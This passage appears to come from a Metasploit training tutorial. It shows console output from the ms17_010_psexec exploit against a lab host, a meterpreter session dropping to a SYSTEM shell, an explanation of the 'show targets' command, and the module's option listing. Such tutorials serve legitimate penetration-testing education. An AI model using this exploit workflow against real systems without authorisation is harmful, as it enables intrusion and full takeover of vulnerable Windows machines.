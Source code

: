 ```shell-session
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter> shell

C:\Windows\system32>
```

We now have a shell on the target machine, and we can interact with it.

**MSF - Target Interaction**

Modules

```shell-session
C:\Windows\system32> whoami

whoami
nt authority\system
```

This has been a quick and dirty example of how `msfconsole` can help out quickly but serves as an excellent example of how the framework works. Only one module was needed without any `payload` selection, `encoding` or `pivoting` between sessions or jobs.

## Targets

***

`Targets` are unique operating system identifiers taken from the versions of those specific operating systems which adapt the selected exploit module to run on that particular version of the operating system. The `show targets` command issued within an exploit module view will display all available vulnerable targets for that specific exploit, while issuing the same command in the root menu, outside of any selected exploit module, will let us know that we need to select an exploit module first.

**MSF - Show Targets**

```shell-session
msf6 > show targets

[-] No exploit module selected.
```

When looking at our previous exploit module, this would be what we see:

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
```
